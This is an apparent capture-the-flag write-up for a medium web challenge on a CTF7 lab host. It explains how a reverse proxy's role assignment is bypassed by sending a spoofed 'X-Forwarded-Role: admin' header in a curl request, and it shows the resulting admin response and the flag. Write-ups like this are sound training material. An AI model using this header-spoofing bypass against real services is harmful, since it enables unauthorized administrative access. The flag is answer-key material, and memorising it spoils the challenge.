

## **Challenge Overview**

**Name:** API Gateway
**Category:** Web Exploitation  
**Difficulty:** Medium
**Points**: 350

###### Challenge Description

CTF7's secure API gateway uses a reverse proxy architecture for authentication and role-based access control. The nginx frontend handles all role assignments before requests reach the backend, so there should be no way to tamper with permissions from the outside.

Explore the interactive API documentation and see if you can access the restricted admin endpoint.

---
### **Observed Endpoints**

From the API documentation:

- `POST /api/login`
    - Returns a JWT token upon authentication.
- `GET /api/profile`
    - Requires a valid Bearer token.
- **Hidden/Restricted Endpoint**
    - `/api/admin/flag`



Reverse proxies commonly pass user roles via headers such as:

- `X-Forwarded-User`
- `X-Forwarded-Role`
- `X-User-Role`


**Request:**
```
curl http://chall-708fcc09.evt-246.glabs.ctf7.com/api/admin/flag \
-H "X-Forwarded-Role: admin"
{"flag":"ctf7{API_fate_way_2cbd0ec8}","message":"Welcome, administrator","status":"success"}
```

**flag**
```
ctf7{API_fate_way_2cbd0ec8}
```

---
